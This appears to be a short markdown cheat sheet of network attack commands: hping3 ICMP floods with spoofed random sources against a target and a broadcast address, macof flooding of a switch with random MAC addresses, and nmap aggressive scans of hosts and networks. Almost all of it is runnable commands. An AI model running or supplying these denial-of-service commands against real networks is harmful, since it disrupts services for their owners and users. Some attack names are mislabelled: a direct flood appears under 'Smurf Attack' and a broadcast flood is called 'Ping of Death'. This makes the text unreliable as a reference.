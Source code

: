 #### **Smurf Attack (ICMP Packets Flooding)**

- **Flood Target with ICMP Packets**:
    ```bash
    sudo hping3 --icmp <target_ip> --rand-source --flood
    ```
    - Floods the target with ICMP packets using random source IPs.
- **Ping of Death (ICMP Flooding)**:
    ```bash
    sudo hping3 --icmp <broadcast_address> --rand-source --flood
    ```
    - Floods all devices in the network using a broadcast address.

---

## **`macof`**

- **Prerequisite**: Use an **Ethernet cable** to connect to the network.

**Commands for MAC Flooding**

1. **Check if `macof` is installed**:
    
    ```bash
    which macof
    ```
    
2. **Get info about `macof`**:
    
    ```bash
    whatis macof
    ```
    
3. **Flood switch with random MAC addresses**:
    
    ```bash
    sudo macof -i eth0
    ```
    
    - Generates random MAC addresses to flood the switch, disrupting the CAM table.

---

## **`nmap`**

1. **Scan a single target with detailed info**:
    ```bash
    sudo nmap -A -T4 <target_ip>
    ```
    - `-A`: OS detection, version detection, script scanning, traceroute.
    - `-T4`: Faster scan speed.
2. **Scan an entire network**:
    ```bash
    sudo nmap -A -T4 <target_network_with_netmask>
    ```
    - Scans all devices in the network range.

---